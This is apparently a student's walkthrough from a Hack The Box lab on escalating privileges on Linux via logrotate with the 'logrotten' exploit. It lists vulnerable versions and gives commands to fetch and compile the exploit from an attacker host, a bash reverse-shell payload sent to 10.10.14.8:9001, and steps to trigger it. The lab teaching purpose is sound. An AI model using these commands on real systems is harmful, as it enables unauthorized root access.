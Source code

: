 
`Logrotate` has many features for managing these log files. These include the specification of:

- the `size` of the log file,
- its `age`,
- and the `action` to be taken when one of these factors is reached.

```
man logrotate
logrotate --help
```

This tool is usually started periodically via `cron` and controlled via the configuration file `/etc/logrotate.conf`. Within this file, it contains global settings that determine the function of `logrotate`.

To force a new rotation on the same day, we can set the date after the individual log files in the status file `/var/lib/logrotate.status` or use the `-f`/`--force` option:

```
cat /var/lib/logrotate.status  
```

We can find the corresponding configuration files in `/etc/logrotate.d/` directory.

```
ls /etc/logrotate.d/
```

```
cat /etc/logrotate.d/dpkg
```

To exploit `logrotate`, we need some requirements that we have to fulfill.

1. we need `write` permissions on the log files
2. logrotate must run as a privileged user or `root`
3. vulnerable versions:
    - 3.8.6
    - 3.11.0
    - 3.15.0
    - 3.18.0

There is a prefabricated exploit that we can use for this if the requirements are met. This exploit is named [logrotten](https://github.com/whotwagner/logrotten). We can download and compile it on a similar kernel of the target system and then transfer it to the target system. Alternatively, if we can compile the code on the target system, then we can do it directly on the target system.

```shell-session
git clone https://github.com/whotwagner/logrotten.git
```
Compile the code
```shell-session
cd logrotten
gcc logrotten.c -o logrotten
```
 
 to compile on remote system:
```bash
wget --recursive --no-parent http://10.10.14.8:8000/logrotten
```

```shell-session
echo 'bash -i >& /dev/tcp/10.10.14.8/9001 0>&1' > payload
```

determine which option `logrotate` uses in `logrotate.conf`.

```shell-session
grep "create\|compress" /etc/logrotate.conf | grep -v "#"
```
result:
`create`

start a listener,  run the exploit with the prepared payload and wait for a reverse shell as a privileged user or root.

```shell-session
./logrotten -p ./payload /tmp/tmp.log
```

**NOTE:**
The log for the HTB Logrotate modules is not in the default location... also the lesson does a horrible job at explaining the order of operations...
You need two ssh session (or use tmux)
1. Locate the log
2. Start your listener
3. Run the exploit and payload against the log
4. In your second ssh session (or tmux) modify the log `echo "hi" > asdf.log`
5. Wait for for activity on listener

Reference: https://forum.hackthebox.com/t/linux-privilege-escalation-logrotate/287727/71
